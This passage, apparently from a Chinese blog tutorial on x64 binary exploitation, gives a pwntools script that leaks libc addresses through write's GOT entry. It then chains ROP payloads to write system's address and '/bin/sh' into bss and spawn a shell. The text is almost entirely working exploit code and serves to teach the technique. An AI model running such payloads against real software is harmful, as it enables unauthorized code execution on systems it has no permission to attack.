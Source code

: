 ```python
write_libc = libc.symbols['write']
print "write_libc= " + hex(write_libc)
system_libc = libc.symbols['system']
print "system_libc= " + hex(system_libc)
bin_sh_libc = libc.search('/bin/sh').next()
print "bin_sh_libc= " + hex(bin_sh_libc)

#get the address of write
payload1 = 'a'*0x88  + p64(0x4011e2) + p64(0) + p64(1) + p64(write_got) + p64(1) + p64(write_got) + p64(8)
payload1 += p64(0x4011c8) + 'd' * 56 + p64(main)

sh.recvuntil("Hello, World\n")
sh.sendline(payload1)
sleep(0.5)

write_addr = u64(sh.recv(8))
print "write_addr= " + hex(write_addr)
sleep(0.5)

#get the address of system and bin_sh
payload2 = 'a'*0x88 + p64(0x4011e2) + p64(0) + p64(1) + p64(read_got) + p64(1) + p64(bss) + p64(16) + p64(0x4011c8) + 'd'*56 + p64(main)
sh.sendline(payload2)
sh.send(p64(system_libc + write_addr - write_libc))
sh.send("/bin/sh\0")
sleep(0.5)
sh.recvuntil("Hello, World\n")

#activate the system("/bin/sh")
payload3 = 'a'*0x88 + p64(0x4011e2) + p64(0) + p64(1) + p64(bss) + p64(bss+8) + p64(0x4011c8) + 'd' *56 + p64(main)
sh.sendline(payload3)
sh.interactive()
```
&emsp;&emsp;至此，一个华丽的利用已经完成了.  

> 以上是对x64libc泄漏的处理方式

#### 书山又路勤为径,学海无涯苦做舟  

---  

<h5><a href="https://dyf.netlify.com">Author dyf@Ever404</a><h5>










